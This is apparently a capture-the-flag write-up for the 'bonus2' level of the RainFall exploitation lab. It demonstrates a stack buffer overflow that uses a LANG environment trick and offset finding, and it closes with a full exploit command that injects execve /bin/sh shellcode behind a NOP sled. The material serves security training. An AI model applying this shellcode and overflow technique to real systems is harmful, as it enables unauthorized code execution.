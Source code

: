 The prog takes to args, and greet us in a specific language based on env LANG.
ltrace show that the first buffer is 40 byte, and the second 32. Lets try to overflow that :
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "D"*40') $(python -c 'print "U"*40')
Hello DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU

Program received signal SIGSEGV, Segmentation fault.
0x08005555 in ?? ()
```
We see some 0x55 ('U'), so we should be able to control the code flow...
But not only 0x55 here. The other language must be here for a reason. Lets try to set LANG to 'fi' or 'nl'
(got those keys from breaking at memcmp in gdb and printing the args)

```
bonus2@RainFall:~$ LANG=nl
bonus2@RainFall:~$ gdb bonus2 
(gdb) r $(python -c 'print "D"*40') $(python -c 'print "U"*40')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "D"*40') $(python -c 'print "U"*40')
Goedemiddag! DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```
Good
Pattern tool tells us offset is 23.
So we simply replace the first arg by our shellcode (and some NOP as padding for good mesure), check the address it's written to with ltraces and put that at offset 23 in the second arg :
```
./bonus2 $(python -c 'print "\x90"*19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "U"*23 + "\x70\xfb\xff\xbf" + "U"*13')
```
